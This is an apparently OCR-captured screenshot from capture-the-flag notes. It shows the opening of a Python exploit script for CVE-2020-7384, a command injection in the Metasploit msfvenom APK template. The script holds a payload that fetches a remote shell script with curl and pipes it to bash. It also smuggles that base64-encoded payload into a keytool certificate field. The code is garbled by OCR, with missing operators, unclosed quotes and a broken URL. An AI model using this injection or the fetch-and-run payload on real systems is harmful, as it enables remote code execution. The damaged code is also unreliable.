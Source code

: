 ![](Maszyny/Linux/Scriptkiddie/Pasted%20image%2020210830181142.png)

# Exploit Title: Metasploit Framework 6.0.11 msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.
www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode
# Change me
payload 'curl http://10.10.14.23:8081/test.sh|bash
# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode().decode()
dname = f"CN='|echo {payload_b64} | base64 -d | sh #"
print(f"[+] Manufacturing evil apkfile")
print("Payload: {payload}")
print(f"-dname: {dname}")
print()
"49491.py" [dos] 49L, 1803B
